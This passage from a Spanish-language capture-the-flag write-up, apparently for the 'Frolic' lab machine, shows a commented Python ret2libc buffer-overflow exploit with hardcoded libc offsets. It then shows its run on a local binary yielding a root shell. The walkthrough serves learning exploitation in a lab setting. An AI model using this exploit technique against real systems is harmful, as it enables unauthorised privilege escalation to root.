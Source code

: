 ### 3º paso: desarrollar script

Ahora con toda esta información ya podremos hacer el **script**.

###### Script explicado

```python

#!/usr/bin/python

from struct import pack # importamos librerias para hacer más facil la conversión a little endian
from subprocess import call # instrucción call para llamar al binario con el argumento

offset = 52 # declaramos offset

junk = "A"*offset # caracteres hasta llegar al EIP

# ret2libc = system_addr + exit_addr + bin_sh_addr

libc = 0xb7e19000 # Dirección base libc

system_addr_off = 0x0003ada0 # offset de la direccion de system
exit_addr_off = 0x0002e9d0 # offset de la direccion de exit
bin_sh_addr_off = 0x0015ba0b # offset de la dirección de bin/sh

system_addr = pack("<I", libc + system_addr_off) # Sumamos el offset de system a la direccion base de libc y obtenemos la direccion real.
exit_addr = pack("<I", libc + exit_addr_off) # Sumamos el offset de exit a la dirección base de libc y obtenemos la direccion real.
bin_sh_addr = pack("<I", libc + bin_sh_addr_off) # Sumamos el offset de bin_sh a la dirección base de libc y obtenemos la direccion real.

payload = junk + system_addr + exit_addr + bin_sh_addr # creamos el payload que le pasaremos como argumento al programa.

call(["/home/ayush/.binary/rop", payload]) # Llamamos al programa vulnerable pasandole como argumento el payload que generamos
```
Listo, ya solo quedaría **ejecutar el script**.

### 4º paso: Explotación

Ejecutamos el script para ver si funciona:

```bash
www-data@frolic:/dev/shm$ python exploit.py 
# whoami; id
root
uid=0(root) gid=33(www-data) groups=33(www-data)
```

¡¡¡Ha funcionado!!!

Ahora solo quedaría obtener la flag `root.txt` que se encuentra en `/root/root.txt`:
